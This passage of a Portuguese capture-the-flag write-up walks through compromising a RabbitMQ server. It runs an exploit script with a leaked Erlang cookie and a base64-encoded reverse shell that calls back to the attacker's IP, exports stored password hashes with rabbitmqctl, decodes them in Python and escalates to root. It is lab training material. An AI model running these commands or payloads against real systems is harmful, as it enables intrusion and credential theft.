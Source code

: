 Agora criei um payload com uma carga em base64:

![image](https://github.com/user-attachments/assets/d5ec707d-dbf5-48b9-a1c5-e45786e4499c)

````bash
python2 er.py 10.10.120.84 25672 wTBuIlKmoBLx183M "echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMjEuMTczLjEwMi80NDIxIDA+JjE= | base64 -d | bash"
````

<p align="center"><img src="https://github.com/user-attachments/assets/9e3490ec-bec1-4f83-a9b3-2581ebfa53dd" width="1500px"></p>

O próximo passo seria listar os usuários mas observei que o arquivo eraling.cookie não tinha pemrissões sufiientes, por isso dei permissão 400 para ele.
> A permissão 400 em sistemas Linux/Unix se refere a permissões de arquivo. Essas permissões são representadas por um número de três dígitos, onde cada dígito especifica permissões para o usuário, grupo e outros, respectivamente.

Agora sim podemos executar o rabbitmqctl

````bash
rabbitmqctl --erlang-cookie "wTBuIlKmoBLx183M" --node rabbit@forge export_definitions /tmp/creds.json
````
Dentro do arquivo creds.json vai ter o hash criptografado, cabe a você agora consegui-lo.

Para descriptografar o hash, criei um código em python:
````python

import base64
import binascii

def extrair_parte2_hash(base64_hash):
    try:
        # Decodifica a string base64 para bytes
        hash_binario = base64.b64decode(base64_hash)
        
        # Converte para string hexadecimal
        hash_hex = hash_binario.hex()
        
        # Divide o hash: parte1 (8 primeiros caracteres), parte2 (resto)
        parte1 = hash_hex[:8]
        parte2 = hash_hex[8:]

        print(f"[+] Parte 1: {parte1}")
        print(f"[+] Parte 2: {parte2}")
        return parte2

    except binascii.Error as e:
        print(f"[!] Erro ao decodificar base64: {e}")
    except Exception as e:
        print(f"[!] Erro inesperado: {e}")

# Exemplo de uso:
base64_hash = "hash_aqui"
extrair_parte2_hash(base64_hash)
````

Após executar o aquivo use a *Parte 2* e altere o usuário com:
````bash
su root
````

Por fim, a última chave:
<p align="center"><img src="https://github.com/user-attachments/assets/00d3e7b9-758f-4b4a-bf40-2f8afc421422" width="1500px"></p>

Até a próxima, good luck!
